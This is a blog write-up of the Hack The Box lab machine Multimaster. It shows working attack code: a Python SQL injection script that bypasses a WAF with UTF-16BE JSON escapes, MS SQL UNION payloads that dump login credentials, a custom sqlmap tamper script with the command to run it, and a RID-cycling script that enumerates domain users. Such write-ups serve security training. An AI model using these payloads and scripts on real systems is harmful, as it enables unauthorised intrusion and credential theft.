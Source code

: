 ```yaml
---
layout: post
title: "Playing with HTB{ Multimaster }"
date: 2020-09-19 21:00:00 +0300
author: snovvcrash
categories: /ctf
tags: [notes, hackthebox, machine, windows, mssql, sqli, sqlmap, sqlmap-tamper, rid-cycling]
published: true
---
```


Automate MS SQL injection with a custom sqlmap tamper script to bypass WAF through UTF-16BE encoded JSON payload. Enumerate AD domain users via RID cycling from within MS SQL DBMS.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/232"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-insane">7.7/10</span>
</p>

![banner.png](/assets/images/htb/machines/multimaster/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/multimaster/info.png)
{:.center-image}

* TOC
{:toc}

# SQLi

## Manual exploitation

JSON format can understand various encodings [including UTF-16BE](https://stackoverflow.com/questions/11641983/encoding-json-in-utf-16-or-utf-32) like follows: `\u00XX`. The payload `' OR 1=1-- -`, for example, will turn into `\u0027\u0020\u004f\u0052\u0020\u0031\u003d\u0031\u002d\u002d\u0020\u002d` after being encoded. I will abuse that fact to bypass WAF (that blocked pretty much everything) and script the injection:

```python
#!/usr/bin/env python3

# Usage: rlwrap ./sqli.py

from binascii import hexlify

import requests

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}

# SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'

while True:
	payload = input('SQLi> ')
	payload = hexlify(payload.encode()).decode()
	payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
	payload = ''.join(payload)
	data = r'{"name":"' + payload + r'"}'
	proxies = {'http': 'http://127.0.0.1:8080'}
	resp = requests.post(URL, headers=HEADERS, data=data, proxies=proxies)
	try:
		print(resp.json()[0]['name'])
	except:
		pass
```

Then I will use MS SQL `STUFF()` function to emulate MySQL `group_concat()` behavior and dump Hub_DB..Logins table:

```
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM master..sysdatabases FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + name FROM Hub_DB..sysobjects WHERE xtype = 'U' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + Hub_DB..syscolumns.name + ':' + TYPE_NAME(Hub_DB..syscolumns.xtype) FROM Hub_DB..syscolumns, Hub_DB..sysobjects WHERE Hub_DB..syscolumns.id=Hub_DB..sysobjects.id AND Hub_DB..sysobjects.name='Logins' FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
SQLi> 1337' union select '1',STUFF((SELECT ',' + username + ':' + password FROM Hub_DB..Logins FOR XML PATH ('')), 1, 1, ''),'3','4','5';-- -
```

![manual-exploit-out.png](/assets/images/htb/machines/multimaster/manual-exploit-out.png)
{:.center-image}

## sqlmap

To teach sqlmap how to exploit this vulnerability with WAF bypass I will write a custom tamper that converts my payload to UTF-16BE string:

```python
#!/usr/bin/env python3

# /usr/share/sqlmap/tamper/utf16be.py

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re
from binascii import hexlify

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
	pass

def tamper(payload, **kwargs):
	retVal = payload

	if payload:
		retVal = hexlify(retVal.encode()).decode()
		retVal = [r'\u00'+retVal[i:i+2] for i in range(0, len(retVal), 2)]
		retVal = ''.join(retVal)

	return retVal
```

Now I can dump all the databases:

```
root@kali:$ sqlmap --batch -u 'http://multimaster.megacorp.local/api/getColleagues' --method POST -H 'Content-Type: application/json;charset=utf-8' --data '{"name":"*"}' --dbms mssql -p name --delay 2 --technique U --union-cols 5 --union-char 1337 --tamper utf16be --dump --proxy http://127.0.0.1:8080
```

![sqlmap-out-1.png](/assets/images/htb/machines/multimaster/sqlmap-out-1.png)
{:.center-image}

![sqlmap-out-2.png](/assets/images/htb/machines/multimaster/sqlmap-out-2.png)
{:.center-image}

![sqlmap-out-3.png](/assets/images/htb/machines/multimaster/sqlmap-out-3.png)
{:.center-image}


And this is how the requests looks like for real (Burp Suite):

![request-in-burp.png](/assets/images/htb/machines/multimaster/request-in-burp.png)
{:.center-image}

However, after all this stuff I was pointed out that there was already a ready-made tamper script doing literally the same thing... Just had to google it a little bit more :expressionless:

Details here: [Bypassing WAFs with JSON Unicode Escape Sequences - TrustFoundry](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/)

# RID Cycling

Unfortunately, these users were not enough to login at least somewhere, so I will write a script to brute force some RIDs from within the MS SQL Server:

```python
#!/usr/bin/env python3

import time
from binascii import hexlify
from base64 import b64encode, b64decode

import requests
import sid

URL = 'http://multimaster.megacorp.local/api/getColleagues'
HEADERS = {'Content-Type': 'application/json;charset=utf-8'}


class SQL:

	"""
	SELECT id,name,position,email,src FROM users WHERE name LIKE '?%'
	"""

	def inject(self, payload, mode='sname'):
		query = """1337' UNION SELECT '1',(SELECT CAST(N'' AS XML).value('xs:base64Binary(xs:hexBinary(sql:column("bin")))', 'VARCHAR(MAX)') Base64Encoding FROM (SELECT CAST(%s AS VARBINARY(MAX)) AS bin) AS bin_sql_server_temp),'3','4','5'-- -"""

		if mode == 'sname':  # input sid, output username
			func = "SUSER_SNAME(0x%s)"
			sid_mode = sid.SID_STRING
			payload = sid.sid(payload).binary()
			payload = hexlify(payload).decode()
			payload = payload.upper()
		elif mode == 'sid':  # input username, output sid
			func = "SUSER_SID('%s')"
			sid_mode = sid.SID_BASE64

		query = query % func % payload

		data = r'{"name":"' + self.waf_bypass(query) + r'"}'
		proxies = {'http': 'http://127.0.0.1:8080'}
		resp = requests.post(URL, headers=HEADERS, data=data)

		out = resp.json()[0]['name']

		if mode == 'sname':
			return b64decode(out.encode()).decode()
		elif mode == 'sid':
			return sid.sid(out, sid_mode).str()

	def waf_bypass(self, payload):
		payload = hexlify(payload.encode()).decode()
		payload = [r'\u00'+payload[i:i+2] for i in range(0, len(payload), 2)]
		payload = ''.join(payload)
		return payload


# print(SQL().inject('Administrator', mode='sid'))  # S-1-5-21-3167813660-1240564177-918740779-500

sql = SQL()
for rid in range(1000, 2000):
	s = f'S-1-5-21-3167813660-1240564177-918740779-{rid}'
	o = sql.inject(s)
	if o:
		print(f'{s} => {o}')
	time.sleep(2)
```

The script uses an SQL query to encode output of `SUSER_SNAME()` and `SUSER_SID()` to Base64 and then asks the server about the SIDs it knows. The basic (domain) SID is found by quering `SUSER_SID('Administrator')`. For converting between varbinary SID and common string SID I used a 3rd party module [python-sid](https://github.com/sspreitzer/python-sid).

![request-in-burp.png](/assets/images/htb/machines/multimaster/rid-brute-out.png)
{:.center-image}

# Refs

* [MSSQL Injection Cheat Sheet / pentestmonkey](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Simulating group_concat MySQL function in Microsoft SQL Server 2005? - Stack Overflow](https://stackoverflow.com/questions/451415/simulating-group-concat-mysql-function-in-microsoft-sql-server-2005)
* [The Mystery of the SUSER_NAME() and SUSER_SNAME() functions - sqlity.net](https://sqlity.net/en/1795/mystery-suser_name-suser_sname-functions/)
